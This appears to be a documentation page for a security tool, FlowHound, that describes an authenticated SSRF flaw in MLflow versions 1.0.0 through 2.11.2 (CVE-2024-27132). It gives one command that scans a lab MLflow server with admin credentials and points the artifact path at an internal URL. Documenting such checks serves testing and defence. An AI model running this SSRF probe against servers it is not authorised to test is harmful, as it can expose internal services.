

repository: rmhowe425/FlowHound · page: cves/cve_2024_27132/index.html · generator: mkdocs

# CVE Description
**CVE Description:** MLflow versions 1.0.0 through 2.11.2 are vulnerable to an authenticated Server-Side Request Forgery (SSRF) attack via the artifact listing endpoint. An attacker with valid credentials can create an experiment pointing to a remote HTTP/HTTPS artifact location, triggering server-side requests when listing artifacts.

**Impacted Versions:** MLflow versions 1.0.0 through 2.11.2


# Auxiliary Module
```bash
flowhound scan --url http://192.168.1.30:5000 --username admin --password password --cve CVE-2024-27132 --f_path http://127.0.0.1:5000/version
```

![image](../images/cve/aaa467ca-de9e-4449-a58d-5257d69e815f.png)
